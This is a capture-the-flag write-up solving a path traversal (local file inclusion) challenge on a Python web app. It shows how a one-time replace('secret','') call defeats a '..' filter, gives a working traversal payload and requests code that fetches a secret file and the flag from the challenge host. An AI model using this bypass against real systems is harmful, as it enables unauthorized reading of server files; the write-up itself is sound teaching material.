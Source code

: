 This task introduces LFI, our goal is to read this file **billet_task/secret_1337_sh1t/secret_word.txt**

and we'll be doing so by exploiting this line.

```python
first_search = os.path.join(os.getcwd(), "registres", *reg).replace("secret", "") 

# There are two things that we care about.
# First it unpacks the reg value which means if I pass in a list ["a", "b"]
# The path becomes os.getcwd()/registres/a/b
# And the other thing is replace("secret", "") and we'll be seeing why later
```
The file we need is at **os.getcwd()/billet_task/secret_1337_sh1t/secret_word.txt** but it joins our input to **os.getcwd()/registres** so how can we read it?

**First:** We want to leave registres folder and read from billet_task but we can't use **..** because of this

```python
if ("/" in reg) or (".." in reg):
    data = "Je vois des trucs interdits ici."
```

This is when we exploit ```.replace("secret", "")``` by giving it **..secret** it will automatically bypass the filter and then remove "secret".


**Second:** Now we want to read secret_1337_sh1t/secret_word.txt but the problem is that "secret" get's replaced with "", BUT ONLY ONCE!

Solution: **sec**secret**ret**_1337_sh1t/**sec**secret**ret**_word.txt

So our payload becomes as follows:

```["..secret", "billet_task", "secsecretret_1337_sh1t", "secsecretret_word.txt"]``` 


```python
r = requests.post("https://infreezy.pythonanywhere.com/get_registre", json={"registre":["..secret","billet_task", "secsecretret_1337_sh1t", "secsecretret_word.txt"]})
print(r.text)
# s3c5e7_1337_f@k1ng_m3s5Ss4ge
```
All that is left to do is to access /get_billet?secret=s3c5e7_1337_f@k1ng_m3s5Ss4ge

```python
with open("flag.png","wb") as file:
    r = requests.get("https://infreezy.pythonanywhere.com/get_billet?secret=s3c5e7_1337_f@k1ng_m3s5Ss4ge")
    file.write(r.content)
```

![](../Rev/images/flag.png)


Challenge author: t0m7r00z
